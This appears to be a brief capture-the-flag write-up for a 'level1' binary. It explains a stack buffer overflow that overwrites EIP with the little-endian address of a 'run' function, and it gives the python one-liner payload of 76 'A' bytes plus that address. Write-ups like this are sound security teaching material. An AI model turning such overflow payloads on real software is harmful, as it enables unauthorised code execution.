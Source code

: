 ![all function](./level1_functions.png "functions")

![main function](./main_function.png "main function")

![run function](./run_function.png "run function")

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + adress of the run function so we can overflow the value of the EIP with adress of our function so it gets executed unstead of exiting the main function

we have litle indian addressing so we should reverse our input the adress of the run function is : 0x08048444

using python -c "print('A' * 76 + '\x44\x84\x04\x08')"
```